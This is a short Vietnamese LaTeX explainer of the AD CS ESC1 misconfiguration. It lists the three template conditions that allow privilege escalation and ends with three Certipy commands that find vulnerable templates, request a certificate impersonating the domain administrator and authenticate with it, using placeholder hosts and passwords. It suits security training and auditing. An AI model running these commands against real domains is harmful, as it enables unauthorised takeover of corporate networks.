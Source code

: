 \documentclass[
]{article}
\newenvironment{Shaded}{}{}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.49,0.56,0.16}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
Active Directory Certificate Services (AD CS) là thành phần PKI phổ biến
nhất trong các tập đoàn lớn toàn cầu. Năm 2021, Will Schroeder và Lee
Christensen (SpecterOps) đã công bố nghiên cứu gây chấn động chỉ ra hàng
loạt cấu hình sai sót nghiêm trọng cho phép leo thang đặc quyền từ người
dùng cấp thấp lên Quản trị viên miền (Domain Admin):

\begin{itemize}
\tightlist
\item
  \textbf{Kỹ thuật ESC1 (Misconfigured Certificate Template):}

  \begin{itemize}
  \tightlist
  \item
    Mẫu chứng chỉ (Template) thỏa mãn đồng thời 3 điều kiện chết người:

    \begin{enumerate}
    \def\labelenumi{\arabic{enumi}.}
    \tightlist
    \item
      Cấp quyền cho nhóm người dùng bình thường (\texttt{Domain\ Users})
      được nộp đơn xin cấp chứng chỉ.
    \item
      Bật cờ \texttt{ENROLLEE\_SUPPLIES\_SUBJECT}: Cho phép người nộp
      đơn tùy ý điền tên Subject Alternative Name (SAN) trong CSR.
    \item
      Cấu hình Extended Key Usage (EKU) có chứa
      \texttt{Client\ Authentication} (\texttt{1.3.6.1.5.5.7.3.2}) hoặc
      \texttt{Smart\ Card\ Logon}.
    \end{enumerate}
  \item
    \emph{Khai thác:} Kẻ tấn công sử dụng công cụ \texttt{Certipy} yêu
    cầu một chứng chỉ với SAN giả mạo là tài khoản
    \texttt{Administrator@domain.local}. Sau khi nhận được chứng chỉ từ
    AD CS, kẻ tấn công dùng chứng chỉ đó yêu cầu vé Kerberos TGT (Ticket
    Granting Ticket) để chiếm quyền điều khiển toàn bộ mạng công ty.
  \end{itemize}
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# Lệnh trinh sát và khai thác ESC1 bằng công cụ Certipy:}
\ExtensionTok{certipy}\NormalTok{ find }\AttributeTok{{-}u}\NormalTok{ user@corp.local }\AttributeTok{{-}p}\NormalTok{ Password123 }\AttributeTok{{-}dc{-}ip}\NormalTok{ 10.0.0.1 }\AttributeTok{{-}vulnerable}
\ExtensionTok{certipy}\NormalTok{ req }\AttributeTok{{-}u}\NormalTok{ user@corp.local }\AttributeTok{{-}p}\NormalTok{ Password123 }\AttributeTok{{-}ca}\NormalTok{ Corp{-}CA }\AttributeTok{{-}template}\NormalTok{ ESC1{-}Template }\AttributeTok{{-}upn}\NormalTok{ administrator@corp.local}
\ExtensionTok{certipy}\NormalTok{ auth }\AttributeTok{{-}pfx}\NormalTok{ administrator.pfx }\AttributeTok{{-}dc{-}ip}\NormalTok{ 10.0.0.1}
\end{Highlighting}
\end{Shaded}
\end{document}
